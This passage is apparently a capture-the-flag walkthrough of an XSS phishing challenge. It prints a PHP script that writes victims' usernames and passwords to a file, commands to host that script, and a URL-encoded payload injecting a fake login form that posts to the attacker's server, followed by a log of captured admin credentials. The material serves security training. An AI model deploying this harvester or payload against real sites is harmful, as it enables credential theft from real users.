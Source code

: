 We could erase the `Image URL` section from above but since this is just a challenge, let's keep it like that.

Let's go into next step

## Setting our php server
---

Next step would be setting our php server to trick the user into thinking they did a legitimate action, let's save the following code in a file:

```php
<?php 
if (isset($_GET['username']) && isset($_GET['password'])) { 
$file = fopen("creds.txt", "a+"); 
fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n"); 
header("Location: http://SERVER_IP/phishing/login.php"); 
fclose($file); 
exit(); 
} 
?>
```

We'll store the file in a directory made in `tmp`, let's follow these steps:

```bash
mkdir /tmp/tmpserver 
cd /tmp/tmpserver 
nano index.php # Paste php code 
sudo php -S 0.0.0.0:80
```

Nice, let's proceed

## Getting the credentials
---

We can now go to `/send.php` and send the URL created at step one, in this case, mine was:

```
http://10.129.147.238/phishing/index.php?url=document.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.15.141%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3B
```


Once we do, we'll get the following credentials on our php server:

```
[Thu Jan 30 22:34:53 2025] PHP 8.3.15 Development Server (http://0.0.0.0:80) started
[Thu Jan 30 22:37:44 2025] 10.129.147.238:59210 Accepted
[Thu Jan 30 22:37:44 2025] 10.129.147.238:59210 [302]: GET /?username=admin&password=p1zd0nt57341myp455&submit=Login
[Thu Jan 30 22:37:44 2025] 10.129.147.238:59210 Closing
```
